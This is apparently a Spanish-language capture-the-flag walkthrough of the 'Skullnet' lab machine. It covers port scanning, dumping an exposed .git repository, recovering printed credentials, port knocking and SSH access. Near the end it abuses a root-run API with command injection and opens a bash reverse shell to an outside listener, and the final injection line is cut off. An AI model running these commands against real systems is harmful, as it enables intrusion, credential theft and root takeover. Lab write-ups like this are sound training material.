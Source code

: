 Maquina: Skullnet

Autor: The Hacker Labs

Dificultad: Dificil

![Screenshot 2024-11-16 095739](https://github.com/user-attachments/assets/5b69c447-8f76-4777-89e0-f4dcc3380249)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-16 103630](https://github.com/user-attachments/assets/98973b45-693a-4426-8722-d09e20842a5a)

Realizamos un escaneo de los puertos

nmap -sC -sV -Pn 172.18.0.2 -oG escaneo

![Screenshot 2024-11-16 103847](https://github.com/user-attachments/assets/7c3f10fb-1286-4be3-a496-72c98e456203)

Realizamos un escaneo mas detallado y encontramos un directorio .git

nmap -sC -sV -Pn --open 172.18.0.2

![Screenshot 2024-11-16 104931](https://github.com/user-attachments/assets/2e98fb2b-410d-49a9-8380-8d4ac43c0b04)

vamos a la web encontrada del repositorio de git 

http://skullnet.es/.git/

![Screenshot 2024-11-16 113342](https://github.com/user-attachments/assets/66024a49-87e3-4558-b20f-d078a9cccaee)

usamos wget

wget -r http://skullnet.es/.git/

![Screenshot 2024-11-16 113355](https://github.com/user-attachments/assets/bec08fe1-f665-4fd4-aa3c-b4c1590e39f5)

ls    

cd skullnet.es    

ls -a 

git log

descubrimos 2 hashes

![Screenshot 2024-11-16 113415](https://github.com/user-attachments/assets/fd0e2d19-6129-4461-baac-bb362bdcdcc2)

Revisamos cada commit, en el primero observamos que tenemos un mensaje

git show 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9

![Screenshot 2024-11-16 113450](https://github.com/user-attachments/assets/90f6aea5-1218-46be-af7a-e20338352a19)

En el segundo commit tenemos lo siguiente

git show 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![Screenshot 2024-11-16 113517](https://github.com/user-attachments/assets/c05d26f4-3e00-4c90-9402-211f92fe6e5b)

Observamos que identificamos varios archivos

Para recuperar los archivos

git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d  

ls

git diff

![Screenshot 2024-11-16 113947](https://github.com/user-attachments/assets/04154f80-6e89-42ee-9d41-134210af4d34)

git checkout -- .

ls

![Screenshot 2024-11-16 114032](https://github.com/user-attachments/assets/77132f4c-6b43-441b-bbed-352c054579ae)

cat authentication.txt

Obtenemos unas credenciales

skulloperator:+%7nj^g!DQxp]a>c4v&0

![Screenshot 2024-11-16 114058](https://github.com/user-attachments/assets/af9b81e8-37e2-441d-8cb1-b3357391d8eb)

Seguimos revisando y ahora debemos buscar el archivo /network.pcap

wireshark network.pcap

Abrimos el archivo con whireshark, como la consulta es corta podemos hacerlo manual. 
Comprobando la captura podemos observar que en la IP de nuestro interés se tiene comunicación con el puerto SSH y 3 puertos adicionales

![Screenshot 2024-11-16 114313](https://github.com/user-attachments/assets/68f61549-87d5-4247-a292-55ba1e440311)

Con esta información realizaremos un port knocking a los puertos encontrados

knock -v 172.18.0.2 1000 12000 5000

![Screenshot 2024-11-16 115003](https://github.com/user-attachments/assets/f7922159-5e99-482c-a5da-0d49b6b83772)

ejecutar nmap

nmap -p22 172.18.0.2

![Screenshot 2024-11-16 115021](https://github.com/user-attachments/assets/297d6b9f-5e74-45e4-a64d-950c1835fd18)

Ya que tenemos habilitado el puerto SSH 

Accedemos por ssh con las credenciales obtenidas

ssh skulloperator@172.18.0.2

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/7b48504b-c5aa-45c3-8e89-5eb1916a83a9)

ls

cat user.txt

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/ade0c15d-6f3c-492e-9fd8-4d466f0f8c50)

![Screenshot 2024-11-16 115412](https://github.com/user-attachments/assets/646eaf72-a5e0-41df-8d4d-eaabf55afb2e)

Revisando procesos observamos que tenemos el archivo skullnet_api.py que lo está ejecutando root

ps aux

![Screenshot 2024-11-16 115456](https://github.com/user-attachments/assets/89ca00b4-83a3-4686-a62b-4fef27642f6e)

Abrimos el archivo y podemos observar el siguiente escucha en el puerto 8081 y ejecuta comandos cuando recibe una solicitud http get con un parámetro específico

Este código para la parte de autenticación espera un encabezado Authorization con el esquema de basic como tenemos la clave de autenticación AUTH_KEY_BASE64 y si esa sección convertimos de base 64 podemos observar lo siguiente.

echo "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA==" | base64 -d

Con esto en conocimiento la estructura del encabezado de Authorization sería la siguiente.

Authorization: basic we_are_bones_513546516486484

usamos curl con el parametro exec

Ejecutamos el comando y podemos observar que listamos archivos y también podemos observar que los ejecutamos como root

curl http://localhost:8081/?exec-ls -H 'Authorization: Basic we_are_bones_513546516486484'
close.sh
open.sh
root.txt

curl http://localhost:8081/?exec-whoami -H 'Authorization: Basic we_are_bones_513546516486484'

Con esto en mente podemos establecer una revshell

bash -c 'bash -i >& /dev/tcp/172.18.0.2/1234 0>&1'

La URL encodeamos para evitar problemas

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F1234%200%3E%261%22

iniciamos netcat

nc -lvnp 1234

URL en codeado sería %3B, Con este permiso lo que hacemos es agregar el comando luego del ls

curl http://localhost:8081/?exec=ls%3Bbash%20-c%20%22bash%20-i%

Si vamos a nuestro listener podemos observar que ya tenemos acceso a la consola de root
